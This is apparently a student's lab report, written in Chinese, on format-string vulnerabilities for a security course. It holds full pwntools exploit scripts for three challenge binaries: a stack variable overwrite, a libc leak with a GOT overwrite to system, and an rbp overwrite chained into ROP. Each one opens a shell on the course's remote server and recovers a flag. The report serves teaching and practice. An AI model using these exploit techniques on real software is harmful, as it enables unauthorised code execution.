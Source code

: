 ## lab02-格式化字符串漏洞

### Task1

> 请阅读 fsb1.c 的内容，在本地和远程服务上完成攻击（要求getshell）。远程服务暴露在：
ip： 8.154.20.109 ，port： 10300

![alt text](img/3220103784-林子昕-lab02/image-1.png)

```shell
❯ echo "AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p" | ./fsb1
address of x is: 0x7ffd05b7a4f8
AAAAAAAA0x7ffd05b7a500.0x80.0x7f5cda7a17e2.0x20.0x7ffd05b7825c.(nil).0xbeaf.0x4141414141414141
```

得到 `%7$p` 为 0xbeaf，根据 `fsb1.c` ，只需要修改 x 的值使它不等于 0xbeaf 即可。

构造 payload：

```text
测试时的布局：
[1] [2] [3] [4] [5] [6] [7:0xbeaf] [8:AAAAAAAA]

payload的布局：

格式化字符串部分 │ 填充部分     │ 地址部分
"%1c%9$hn\x00"  │ \x00\x00... │ x_addr
```

代码实现：

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

DEBUG = 1
REMOTE = 1

if REMOTE:
    p = remote("8.154.20.109", 10300)
    p.recvuntil(b"Please input your StudentID:\n")
    p.sendline(b"3220103784")
else:
    p = process("./fsb1")
    
p.recvuntil(b'address of x is: ')
x_addr = eval(p.recvline().strip().decode())

log.success("get address successfully: x_addr = %x", x_addr)

# write x_addr to the 9th parameter of printf
payload = ""
payload += "%1c"
payload += "%9$hn" # 9 is the index of x_addr in the stack
payload = payload.encode().ljust(8, b'0') # padding
payload += p64(x_addr) # the address of x

p.sendline(payload)
p.interactive()
```

本地测试通过：

![alt text](img/3220103784-林子昕-lab02/image-2.png)

远程测试通过，得到 flag：` ssec2024{f0rmat_0v3rr1d3_succ3ss|162130ce}`

![alt text](img/3220103784-林子昕-lab02/image-3.png)

### Task2

> 请阅读 fsb2.c 的内容，在本地和远程服务上完成攻击（要求getshell）。远程服务暴露在：`ip： 8.154.20.109 ，port： 10301`
攻击步骤：
通过泄露 libc 函数来确定 libc 加载的虚拟地址，并通过计算拿到 system 的地址；
覆盖 printf 的 GOT 表为 system；
调用 print 以触发 system 从而 getshell。
你可以通过学习 pwntools中fmtstr 库的相关API来简化攻击流程。

攻击思路：

1. 泄露printf的地址：
构造一个格式化字符串，如"%7$s"，并在之后紧跟着printf的GOT地址（假设elf.got["printf"]），来泄露printf函数在内存中的实际地址。
利用泄露出的地址，推算libc基地址。libc的偏移通常可以从libc-database等资料库中获取。
2. 计算system函数的地址：
通过泄露出的printf地址减去printf在libc中的偏移量，即可获得libc的基地址。
结合system在libc中的偏移量，可以计算出system的实际地址。构造格式化字符串，覆盖GOT表。
3. 触发system函数：
覆盖完成后，通过再次调用printf，输入"/bin/sh"，使得程序调用system("/bin/sh")，从而获取shell。

```shell
❯ echo "AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p" | ./fsb2
AAAAAAAA0x7ffc9b057900.0x100.0x7fa107c667e2.0x7fa107d6df10.0x7fa107d8c040.0x4141414141414141.0x70252e70252e7025.0x252e70252e70252e
```

得到 offset 为 6.

1. 泄露printf的地址：

```python
libc = ELF("./libc.so")
elf = ELF("./fsb2")
printf_got = elf.got["printf"]
offset = 6

payload = ""
payload += "%7$s"
payload = payload.encode().ljust(8, b'0') # padding
payload += p64(printf_got) # the address of printf
```
2. 计算system函数的地址, 构造格式化字符串，覆盖GOT表：

```python
printf_addr = u64(p.recv(6).ljust(8, b"\x00"))
system_addr = printf_addr - (libc.symbols["printf"] - libc.symbols["system"])
if DEBUG:
    log.info(f"printf_addr = {hex(printf_addr)}")
    log.info(f"system_addr = {hex(system_addr)}")
payload = fmtstr_payload(offset, {printf_got: system_addr}, write_size="short")
info(f"payload = {payload}")
```

3. 触发system函数：

```python
p.send(payload)
p.send(b"/bin/sh\0")
p.interactive()
```

本地测试通过：

![alt text](img/3220103784-林子昕-lab02/image-5.png)

远程测试通过，得到  flag: `ssec2024{g0t_0v3rrid3_2_sh3ll|66f9f180}`

![alt text](img/3220103784-林子昕-lab02/image-4.png)

### bonus

> 请阅读 bonus.c 的内容，在本地和远程服务上完成攻击（要求getshell）。远程服务暴露在：`ip： 8.154.20.109 ，port： 10302`
提示：
本题目中字符串不再位于栈上，无法利用之前的方法覆盖任意地址的内存。但栈上一些敏感内存仍然可以被覆盖，比如函数执行 push rbp 保存的rbp寄存器。

攻击思路：

1. 利用格式化字符串漏洞重写 rbp 或其他地址。
2. 通过 ROP 构造跳转链，最终调用 `system("/bin/sh")` 获取 shell。

代码实现：

1. 同上述解法，得到 offset 为 8，从 elf 文件中获取相关地址，使用 find_gadget 找到 ret 和 pop rdi 的地址。

```python
elf = ELF("./bonus")
libc = ELF("./libc.so")
system = elf.symbols["system"]
buffer = elf.symbols["buffer"]
offset = 8
rop = ROP(elf)
ret =  rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
```

2. 构造 payload 的前半部分，覆盖 rbp 为 buffer 的地址。

```python
p.sendline("dummy input")

payload = ""
length = 0x40
payload += "%{}c%{}$lln".format(buffer + length, offset)
payload = payload.encode().ljust(length, b"\x00")
payload += b"Anya" * 2
```

3. 构造 payload 的后半部分，使用 ROP 调用 system("/bin/sh")。

```python
payload += p64(pop_rdi)
payload += p64(buffer + 2 * length)
rop.raw(system)
payload += p64(ret)
payload += rop.chain()
payload = payload.ljust(2 * length, b"\x00")
payload += b"/bin/sh\x00"
```

4. 发送 payload，获取 shell。

```python
p.sendline(payload)
p.interactive()
```

本地测试通过：

![alt text](img/3220103784-林子昕-lab02/image-6.png)

远程测试通过，得到 flag: `ssec2024{Format_String_Exploits_Are_Powerful|d40ea8a2}`

![alt text](img/3220103784-林子昕-lab02/image-7.png)
